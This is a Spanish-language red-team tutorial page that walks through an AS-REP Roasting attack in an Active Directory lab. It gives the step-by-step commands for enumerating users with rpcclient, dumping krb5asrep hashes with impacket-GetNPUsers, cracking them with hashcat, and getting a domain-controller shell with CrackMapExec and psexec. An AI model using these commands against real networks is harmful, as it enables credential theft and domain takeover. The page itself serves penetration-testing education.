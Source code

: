 ```yaml
---
description: >-
  Este ataque se aprovecha de los usuarios que tienen activa la opción de "No
  requiere preautenticación de Kerberos".
---
```


# AS\_REP ROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios (vgarcia:Password2). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.

{% hint style="info" %}
La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario.

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.
{% endhint %}

Para entender más en profundidad estos conceptos puede leer el siguiente artículo:

{% content-ref url="../conceptos/conceptos-importantes-antes-de-continuar.md" %}
[conceptos-importantes-antes-de-continuar.md](../conceptos/conceptos-importantes-antes-de-continuar.md)
{% endcontent-ref %}

### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.

{% embed url="https://web.mit.edu/darwin/src/modules/samba/docs/htmldocs/rpcclient.1.html" %}

#### CrackMapExec <a href="#crackmapexec" id="crackmapexec"></a>

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

#### PowerSploit Toolkit <a href="#powersploit-toolkit" id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

#### Hashcat <a href="#hashcat" id="hashcat"></a>

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" %}

#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

![Obteniendo los usuarios de un Dominio.](../../.gitbook/assets/as\_rep1.png)

Los guardamos en un archivo users.txt (Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

![Hash krb5asrep conseguido](<../../.gitbook/assets/as\_rep2 (2).png>)

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat (aunque tambien se puede utilizar john).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2`&#x20;
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

![Contraseña crackeada SVC-SQLService:MYpassword123#](../../.gitbook/assets/as\_rep3.png)

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

![El usuario SVC-SQLService es administrador de dominio ¡Premio!](../../.gitbook/assets/as\_rep4.png)

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![¡Premio!](<../../.gitbook/assets/imagen (75).png>)

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" %}
